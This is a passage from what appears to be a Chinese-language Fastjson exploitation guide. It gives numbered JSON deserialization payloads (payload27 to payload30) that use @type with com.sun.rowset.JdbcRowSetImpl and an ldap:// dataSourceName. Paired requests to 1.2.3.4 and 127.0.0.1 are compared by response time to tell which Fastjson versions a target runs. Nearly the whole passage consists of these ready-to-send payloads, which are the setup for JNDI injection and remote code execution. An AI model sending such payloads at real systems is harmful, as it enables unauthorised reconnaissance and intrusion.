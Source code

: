 #### 2.3.2.2 判断 1.1.16<=version<=1.2.24

`payload27`（组合拳）：

```plain
{"username":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://1.2.3.4/POC","autoCommit":true}}
```

```plain
{"username":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://127.0.0.1/POC","autoCommit":true}}
```

和`payload26`一样，如果下面的比上面的响应快说明版本处于`1.1.16`和`1.2.24`之间；`1.1.15`我本地测试的时候响应很快但是报错`Duplicate field name "matchColumn_asm_prefix__" with signature "[C" in class file Fastjson_ASM_JdbcRowSetImpl_1`。

#### 2.3.2.3 变种：判断 1.1.16<=version<=1.2.11

如果对方用的是`JSON.parseObject`，那么`payload27`还有变种。  
`payload28`（组合拳）：

```plain
{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://1.2.3.4/POC", "autoCommit":true}}""}
```

```plain
{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://127.0.0.1/POC", "autoCommit":true}}""}
```

如果下面比上面响应快，说明版本处于`1.1.16`和`1.2.11`之间。

#### 2.3.2.4 判断 1.2.28<=version<=1.2.47

`payload29`（组合拳）：

```plain
{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://1.2.3.4/POC","autoCommit":true}}
```

```plain
{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://127.0.0.1/POC","autoCommit":true}}
```

如果下面比上面响应快，说明版本处于`1.2.28`和`1.2.47`之间。

#### 2.3.2.5 变种：判断 1.2.9<=version<=1.2.11

如果对方用的是`JSON.parseObject`，那么`payload29`还有变种。  
`payload30`（组合拳）：

```plain
{"@type":"com.alibaba.fastjson.JSONObject","a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://1.2.3.4/POC","autoCommit":true}}
```
